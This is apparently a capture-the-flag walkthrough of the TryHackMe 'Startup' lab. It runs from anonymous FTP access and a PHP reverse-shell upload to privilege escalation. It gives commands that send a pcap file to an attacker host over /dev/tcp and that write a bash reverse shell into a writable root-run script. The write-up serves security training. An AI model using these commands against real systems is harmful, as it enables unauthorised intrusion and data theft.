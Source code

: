 # TryHackMe - Startup

[Room link](https://tryhackme.com/room/startup)

---

## Enumeration

Nmap :

```bash
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:B5:E9:5D:9D:5F (Unknown)
```

---

### FTP 
---

Let(s try to connect us to the ftp servica as anonymous user.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

That works. 

```bash
ftp> get .test.log
ftp> get important.jpg
ftp> get notice.txt
```

After reading this files, there is no important things in there. Let's moving on the web service on the 80 port.

---

### HTTP 80

There is not interresting things on the default page. We will scan the web content directory of this website with dirb tool.

```bash
$ dirb http://10.10.1.159/
[...]
==> DIRECTORY: http://10.10.1.159/files/
+ http://10.10.1.159/index.html (CODE:200|SIZE:808)                          
+ http://10.10.1.159/server-status (CODE:403|SIZE:276) 
```

The files in the files directory seems the same on the ftp. 

---

## Exploitation

Let's try to upload a reverse shell on the ftp service.

```bash
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (124.7497 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Jan 03 17:56 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5494 Jan 03 17:56 php-reverse-shell.php
226 Directory send OK.

```

We can't upload a file on the root of the ftp but we can on the "ftp" directory. Don't forget to set up the nc listenner and activate this file on the http://<target_ip>/files/

```bash
Connection from 10.10.1.159 44792 received!
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:58:59 up 19 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

We received a connection !

---

### Secret food flag

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was ****.
```

## User flag

After stabilized our shell, let's look on the root server directory. There is a strange directory named "incidents" with a pcap file named "

```bash
www-data@startup:/$ ls -l
total 92
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Jan  3 17:39 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
[...]
www-data@startup:/incidents$ ls -l
total 32
-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

We need to download this file for analyzes it with wireshark. Let's download it via nc listenner.

On the attacker machine :

```bash
$ nc -lnvp 1235 > file.pcap
```

On the target machine :

```bash
$ bash -c 'cat suspicious.pcapng > /dev/tcp/<attacker_ip>/1235'
```

Let's dive into the sequence 7 of the TCP stream on the pcap file and show the TCP stream, we can see a strange string.

Let's try to connect on the user lennie with this password.

That works !

```bash
www-data@startup:/incidents$ su lennie -
Password: 
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
lennie@startup:/incidents$
```

The user flag is in the lennie's home directory on the user.txt file.

---

## Root flag

On the lennie's home directory, we can see a script called planner.sh

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

After reading, the script will execute /etc/print.sh script and this file is editable by lennie.
The next step is to set up a nc will initilized a connection. 

On the attacker machine :

```bash
nc -lnvp 1235
```

On the target machine, add this lines into /etc/print.sh :

```bash
bash -c 'exec bash -i &>/dev/tcp/<attack_ip>/1235 <&1'
```

Right now, we are root !

Then, get the root flag on /root/root.txt
